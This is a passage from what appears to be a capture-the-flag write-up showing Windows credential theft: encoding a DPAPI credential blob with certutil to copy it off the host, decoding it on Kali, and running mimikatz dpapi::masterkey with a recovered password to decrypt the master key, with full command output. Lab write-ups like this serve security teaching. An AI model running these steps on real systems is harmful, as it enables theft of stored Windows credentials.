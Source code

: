     C:\Users\security\AppData\Roaming\Microsoft\Credentials>certutil -encode 51AB168BE4BDB3A603DADE4F8CA81290 output
    Input Length = 538
    Output Length = 800
    CertUtil: -encode command completed successfully.
    
    C:\Users\security\AppData\Roaming\Microsoft\Credentials>type output
    -----BEGIN CERTIFICATE-----
    AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9
    ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQA
    aQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/
    MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m
    5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nu
    WlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+
    WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZh
    xcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2h
    X5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJs
    ZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zW
    C+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJ
    vEgzQvv2cbicmQ==
    -----END CERTIFICATE-----
    
    C:\Users\security\AppData\Roaming\Microsoft\Credentials>del output
    
    
    
    root@kali# cat credentials.b64 | base64 -d > credentials
    

#### Decrypt Master Key

I’ll move to a Windows host, and fire up `mimikatz`. I’ll use the
`dpapi::masterkey` command to decrypt the master key using the password from
the security account:

    
    
      .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
    
    mimikatz # dpapi::masterkey /in:\users\0xdf\desktop\masterkey /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
    **MASTERKEYS**
      dwVersion          : 00000002 - 2
      szGuid             : {0792c32e-48a5-4fe3-8b43-d93d64590580}
      dwFlags            : 00000005 - 5
      dwMasterKeyLen     : 000000b0 - 176
      dwBackupKeyLen     : 00000090 - 144
      dwCredHistLen      : 00000014 - 20
      dwDomainKeyLen     : 00000000 - 0
    [masterkey]
      **MASTERKEY**
        dwVersion        : 00000002 - 2
        salt             : 9c51ca4d00708c73d4fbff60b95e549e
        rounds           : 000043f8 - 17400
        algHash          : 0000800e - 32782 (CALG_SHA_512)
        algCrypt         : 00006610 - 26128 (CALG_AES_256)
        pbKey            : e78fb1d989c4ccd7a05285c17fae1c31ad1210f7ada051ae3203536df
    613e63a0e4647ca9ed51407637d8c1cc2ad16b2306aab56d7d2707b0c77422e7de39eb8bdfcca550
    44b4a7f853b6f0b3333213b5b0d80c7c1021f6c4ac2f5fa3772adbe50af7fdf07b0e0ea940d70a12
    45db7df847f615530a93895012a3ad9c7a8c39cc0592d06d714c9ee8fe34ced5062c412
    